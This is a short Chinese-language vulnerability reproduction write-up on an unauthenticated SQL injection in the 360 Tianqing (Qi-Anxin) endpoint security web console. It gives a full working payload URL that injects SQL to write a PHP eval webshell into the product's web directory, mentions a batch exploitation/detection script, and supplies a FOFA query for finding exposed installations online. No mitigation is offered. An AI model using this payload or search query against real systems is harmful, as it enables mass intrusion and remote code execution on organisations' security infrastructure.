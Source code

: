 # 0x00 漏洞介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，一个可以未授权访问的API存在SQL注入漏洞，可导致写入Webshell  
现在天擎系统归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
如下时写入Webshell的payload
```
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```
我使用sqlmap进行复现，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
用法：
```
python3 360天擎-越权访问导致数据库信息泄露-Vuln-Batch-Detect.py -h
```
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
